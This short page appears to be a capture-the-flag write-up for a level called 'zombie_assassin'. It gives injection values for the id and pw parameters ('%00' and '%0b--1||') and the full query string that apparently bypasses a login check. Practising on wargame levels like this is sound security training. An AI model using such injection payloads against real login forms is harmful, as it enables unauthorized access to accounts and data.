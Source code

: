 ```yaml
---
layout: default
title: zombie_assassin
---
```




The payload will be for id: `%00`
for pw: `%0b--1||` 
and the whole query will look like this: `id=%00&pw=%0b--1||`